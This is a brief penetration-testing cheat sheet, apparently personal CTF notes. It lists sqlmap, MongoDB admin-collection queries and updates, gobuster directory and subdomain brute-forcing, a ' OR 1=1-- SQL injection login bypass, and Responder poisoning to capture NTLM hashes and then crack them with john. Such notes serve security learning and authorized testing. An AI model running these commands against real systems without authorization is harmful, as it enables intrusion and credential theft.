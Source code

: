 ### Scan
`sqlmap -u <url> --dbs`

## MongoDB
- `mongo --port $PORT`
- `mongo --port $PORT <default db> --eval <cmd>`

Typical cmds:
- `db.admin.find().forEach(printjson)`
- `db.admin.update({"_id":ObjectId("...")},{$set:{"...":"..."}})`

## GoBuster
Bruteforce webdirs
### WordLists
`SecLists/`
Classic :
Discovery/Web-Content/common.txt

Subdirs:
`gobuster dir --wordlist=<wl> --url=<host>`
Useful flags:
`-r`: follow redirect
`-k`: ignore non-verified certificates
`-b 404,302,...`: specify status codes as "negative"

Subdomains:
`gobuster vhost --append-domain --wordlist=<wl> --url=<domain>`


## SQL injection
### Basic login
--: skip rest of line
': end quote
... WHERE PASSWORD='PW<' OR 1=1-->' => always true

## Responder 
A LLMNR, NBT-NS and MDNS poisoner, with built-in HTTP/SMB/MSSQL/FTP/LDAP rogue authentication server supporting NTLMv1/NTLMv2/LMv2, Extended Security NTLMSSP and Basic HTTP authentication
NTLM: pre-Kerberos, challenge-based auth (assuming pw has been shared at some point, hashed then deleted)
### Setup
If needed, edit conf /usr/share/responder/Responder.conf
`responder -I <interface>`
Then trigger //<local_ip>/somefile on victim for it to send a NTLM

Then crack hashes
`john --format=netntlmv2 /usr/share/responder/logs --format=netntlmv2 `

